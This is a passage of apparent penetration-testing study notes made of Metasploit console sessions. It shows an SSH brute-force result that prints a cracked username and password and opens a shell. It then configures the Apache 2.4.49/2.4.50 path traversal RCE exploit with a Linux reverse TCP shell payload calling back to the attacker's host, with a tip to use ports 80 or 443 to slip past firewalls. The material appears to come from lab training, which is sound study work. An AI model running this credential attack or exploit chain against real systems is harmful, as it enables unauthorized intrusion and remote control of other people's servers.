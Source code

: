 ```console
[+] 192.168.249.201:2222 - Success: 'george:chocolate' 'uid=1001(george) gid=1001(george) groups=1001(george) Linux brute 5.15.0-37-generic #39-Ubuntu SMP Wed Jun 1 19:16:45 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.119.2:38329 -> 192.168.249.201:2222) at 2022-07-28 07:22:05 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

// unlike hydra, metasploit not only displays valid credentials, but also opens a session

msf6 auxiliary(scanner/ssh/ssh_login) >  creds
```

### Exploit Modules

```
192.168.249.16
```

```console
> workspace -a exploits

> search Apache 2.4.49
   0  exploit/multi/http/apache_normalize_path_rce  2021-05-10       excellent  Yes    Apache 2.4.49/2.4.50 Traversal RCE
   1  auxiliary/scanner/http/apache_normalize_path  2021-05-10       normal     No     Apache 2.4.49/2.4.50 Traversal RCE scanner

> use 0

> info
Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

> show options

// there is an additional option section named Payload options. if we don't set this, the module will select a default payload

> set payload payload/linux/x64/shell_reverse_tcp

> show options

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

> set LHOST 192.168.45.198

// change the port from 4444 to avoid getting blocked by firewalls, you can use common ones like 80 or 443
// no neet to start listener manually

> set SSL false
> set RPORT 80
```